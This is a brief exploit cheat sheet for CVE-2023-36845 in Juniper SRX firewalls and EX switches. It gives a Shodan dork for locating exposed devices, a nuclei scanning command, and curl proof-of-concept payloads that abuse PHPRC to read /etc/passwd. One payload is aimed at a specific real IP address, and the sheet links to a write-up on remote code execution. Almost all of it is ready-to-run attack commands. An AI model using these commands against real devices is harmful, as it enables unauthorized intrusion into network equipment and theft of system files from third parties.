 ### This is vulnerability which impact in Juniper SRX firewalls and EX switches

#### Tag
```Juniper```

#### Dorks
```
Shodan - title:"Juniper" http.favicon.hash:2141724739
```

#### Nuclei Scanning
```
nuclei -l targets.txt -t cve-2023-36845.yaml -o vulnerable-targets.txt
```

#### Exploit POC
```
curl <target> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

curl -kv "https://<target>/about.php?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'
curl -kv "https://104.193.173.241/about.php?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'
```

#### Manual ways and RCE
https://medium.com/@CTRL2030/exploit-cve-2023-36845-rce-by-ctrl-11c6366f8834
